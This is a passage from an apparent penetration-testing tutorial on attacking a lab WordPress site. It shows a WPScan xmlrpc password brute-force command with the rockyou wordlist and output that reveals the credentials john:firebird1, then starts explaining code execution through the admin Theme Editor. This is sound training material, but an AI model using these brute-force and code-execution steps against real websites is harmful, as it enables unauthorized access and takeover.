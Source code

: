 WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website (admin and john). The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23

```

The `--password-attack` flag is used to supply the type of attack. The `-U` argument takes in a list of users or a file containing user names. This applies to the `-P` passwords option as well. The `-t` flag is the number of threads which we can adjust up or down depending. WPScan was able to find valid credentials for one user, `john:firebird1`.

* * *

## Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the `john` user, which will redirect us to the admin panel. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.
